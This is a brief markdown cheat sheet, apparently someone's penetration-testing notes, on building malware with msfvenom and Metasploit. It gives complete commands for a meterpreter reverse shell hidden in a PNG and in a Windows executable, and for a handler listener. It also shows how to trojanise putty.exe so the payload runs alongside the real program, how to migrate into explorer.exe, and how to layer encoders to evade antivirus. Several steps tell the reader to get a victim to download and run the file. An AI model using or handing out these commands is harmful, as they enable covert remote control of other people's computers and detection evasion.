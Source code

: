 *--> Typical shellcode has a length of 300 to 400 Bytes*

## Example: Hide payload in benign file
- `msfvenom -p php/meterpreter/reverse_tcp lhost=IPv4 lport=8080 >> /home/Desktop/123.png`

## Example: Reverse Shell

**1. Kali**
- `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=IPv4 LPORT=443 -f exe -o payload`
   - for Android application: -f raw (because .apkis not available)
   - Optional: msfvenom --list formats (to check available formats)
   - Optional: msfvenom --list payloads (to check available payloads)

**2. Windows: Let victim download malware**

**3. Kali**
- msfconsole use exploit/multi/handler
- set payload windows/meterpreter_reverse_tcp
- set LHOST (Best Practice: 0.0.0.0 = accept connection on all IPs from anyone)
- set LPORT 443
- run

**4. Windows: Execute Malware**

**5. Kali: Meterpreter** 
- upload /usr/share/windows-binaries/nc.exe (upload further software on target)
- Info gathering on target: getuid, getprivs, getsystem
- Implement other extensions: load -l (Bsp: kiwi)

## Example: Putty-Trojan

- Carrier Application (CA): putty.exe 32Bit Binary File
- Wrapper: msfvenom (to combine payload and CA) 

1. `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -x /root/putty.exe -k -f exe -o /var/www/html/putty.exe`
   - x = Carrier Application
   - k = to execute both payload and carrier application 
2. Let victim download carrier application onto target system 
3. Kali: Meterpreter exploit/multi/handler 
4. Session starts/closes as soon as carrier application gets executed/closed
5. Attach your payload to another legitimate process to get independent of carrier application:
   - Example of legitimate process on Windows: explorer.exe 
   - Open terminal on Windows target system: `ps -S explorer`
   - remember PID 
6. Meterpreter: migrate [PID]

## Encoding

**Get an overview**
- `msfvenom -l encoders`

**Encoding Example #1**
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -a x86 --platform windows -e x86/shikata_ga_nai -i 130 -x /root/putty.exe -k -f exe -o /var/www/html/putty.exe`

**Encoding Example #2**
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -a x86 --platform windows -e x86/countdown -i 10 -x /root/putty.exe -k -f raw | msfvenom -a x86 --platform windows -e shikata_ga_nai -i 15 -f exe -o double-encoded-putty.exe`
